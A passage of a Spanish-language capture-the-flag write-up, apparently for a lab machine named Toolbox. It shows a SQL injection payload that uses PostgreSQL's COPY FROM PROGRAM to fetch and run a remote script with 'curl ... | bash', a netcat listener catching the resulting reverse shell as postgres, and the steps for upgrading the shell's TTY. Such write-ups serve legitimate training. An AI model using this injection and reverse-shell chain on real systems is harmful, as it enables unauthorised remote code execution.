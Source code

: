 ![](/assets/img/Toolbox/image_7.png)

```
username=test';COPY+cmd_exec+FROM+PROGRAM+'curl http://10.10.16.16/shell|bash';--+-+&password=test
```

Recibimos la `shell`

```
# nc -nlvp 9993 
listening on [any] 9993 ...
connect to [10.10.16.16] from (UNKNOWN) [10.129.189.200] 62842
bash: cannot set terminal process group (11767): Inappropriate ioctl for device
bash: no job control in this shell
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$ 
```

Obtenemos las `dimensiones` de nuestra `pantalla` 

```
# stty size
45 183
```

Efectuamos el `tratamiento` a la `TTY`

```
# script /dev/null -c bash
[ENTER]
[CTRL + Z]
# stty raw -echo; fg
[ENTER]
# reset xterm
[ENTER]
# export TERM=xterm
[ENTER]
# export SHELL=bash
[ENTER]
# stty rows 45 columns 183
[ENTER]
```
